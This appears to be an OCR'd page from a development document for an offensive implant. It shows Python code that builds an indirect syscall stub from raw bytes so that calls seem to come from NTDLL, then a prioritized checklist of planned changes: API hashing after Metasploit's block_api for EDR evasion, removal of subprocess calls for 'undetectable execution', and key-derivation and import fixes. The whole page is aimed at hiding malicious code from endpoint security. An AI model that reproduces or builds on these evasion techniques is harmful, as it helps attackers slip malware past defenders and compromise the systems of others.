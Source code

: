 ```python
        Actually: Our code executing via jump
        """
        
        syscall_addr = self.syscall_stubs.get(func_name)
        if not syscall_addr:
            return -1
        
        # Get syscall number
        syscall_num = self.syscall_numbers[func_name]
        
        # Build indirect stub
        stub = bytes([
            0x4C, 0x8B, 0xD1,  # mov r10, rcx
            0xB8              # mov eax, <num>
        ]) + syscall_num.to_bytes(4, 'little') + bytes([
            0xFF, 0x25, 0x00, 0x00, 0x00, 0x00  # jmp [rip+0]
        ]) + syscall_addr.to_bytes(8, 'little')
        
        # Allocate and execute
        # ... (standard executable memory allocation)
```

**Impact:** ✅ **Syscalls appear to originate from NTDLL** (stealth++)

---

## 📋 COMPLETE FIX CHECKLIST (Prioritized)

### Priority 1: CRITICAL (Do First) 🔴

- [ ] **Fix GetProcAddress usage** → Implement API hashing
  - File: `Core/advanced_evasion.py`
  - Lines: 59, 103
  - Research: Metasploit block_api
  - Impact: EDR evasion

- [ ] **Fix hardcoded salt** → Hardware-bound key derivation
  - File: `Core/crypto_system.py`
  - Line: 73
  - Research: NIST SP 800-132
  - Impact: Security hardening

- [ ] **Eliminate ALL subprocess** → Use native APIs only
  - Files: 46 elite command files
  - Current: 46 files use subprocess
  - Target: 0 files use subprocess
  - Research: MITRE ATT&CK T1059
  - Impact: Undetectable execution

- [ ] **Fix broken import** → api_wrappers path
  - File: `Core/memory_protection.py` line 209
  - Issue: `from api_wrappers import` (wrong path)
  - Fix: `from Core.api_wrappers import` or `from .api_wrappers import`
  - Impact: Code actually works
